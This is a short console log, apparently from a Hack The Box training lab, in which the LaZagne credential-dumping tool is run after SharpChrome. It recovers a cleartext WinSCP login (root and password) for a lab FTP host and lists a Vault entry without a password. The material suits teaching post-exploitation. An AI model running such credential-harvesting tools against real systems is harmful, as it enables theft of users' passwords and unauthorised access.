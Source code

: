 
SharpChrome completed in 00:00:00.7327533

PS C:\Tools> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: htb-student ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: ftp.ilfreight.local
Login: root
Password: Ftpuser!
Port: 22

------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:target=WEB01
Login: amanda